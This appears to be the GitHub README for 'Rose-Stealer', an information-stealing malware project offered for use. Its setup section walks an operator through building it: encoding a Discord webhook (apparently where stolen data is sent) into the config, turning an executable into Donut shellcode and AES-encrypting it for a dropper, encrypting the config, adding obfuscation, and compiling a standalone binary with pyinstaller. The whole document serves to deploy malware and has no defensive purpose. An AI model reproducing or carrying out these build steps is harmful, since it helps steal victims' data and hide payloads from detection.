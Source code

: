# 🐍 Rose-Stealer
## Rewritten version of the rose malware family.

> [!CAUTION]
> If you don't trust it, read the source.

> [!IMPORTANT]
> This is a small rewritten version for the rose implant.
> I don't provide support for this. You should know what you're doing.

## Requirements
- [Python 3.10+](https://python.org/downloads)
- Python-Libs installed (`pip install -r assets\requirements.txt`)

## Setup
#### [Download](https://github.com/0xRose/Rose-Stealer/archive/refs/heads/main.zip) the source code of this repository.
- Encode your Discord Webhook: `python utils\b85_encode.py DISCORD_WEBHOOK`
  - Place the output in the config.ini file
  ```ini
  [main]
  # base 85 encoded and hexified discord webhook
  discord_webhook=DISCORD_WEBHOOK <--- Put the encoded webhook here
  ```
- File dropper if wanted:
  - generate shellcode with [Donut](https://github.com/TheWover/donut) for an executable file to e.g. `shellc.dat`
  - AES encrypt the shellcode file:
    - `python utils\aes_encrypt.py client\shellc.dat client\shellc.aes`
    - Copy the output key into your config.ini file like this:
    ```ini
    [shellcode_loader]
    # file path storing AES encrypted and compressed shellcode
    shellcode_file_name=shellc.aes
    # hexified 32 byte (128-bit AES key)
    shellcode_key=AES_KEY <--- Put the AES key here
    ```
- Now encrypt the config file:
  - `python utils\aes_encrypt.py client\config.ini client\config.aes`
  - Put the output key you received into the [malware source code](https://github.com/0xRose/Rose-Stealer/blob/main/client/main.py) on line 380:
    ```py
    key = "AES_KEY"  # hexified 32 byte key (128-bit)  <--- Put the AES key here
    ```
(Additionally i would recommend to add obfuscation on the script now.)
- You can now compile it into a binary: `pyinstaller --onefile --add-data "client\shellc.aes;." --add-data "client\config.aes;." --hidden-import cryptography --hidden-import pywin32 --hidden-import pillow --hidden-import aiohttp client\main.py`
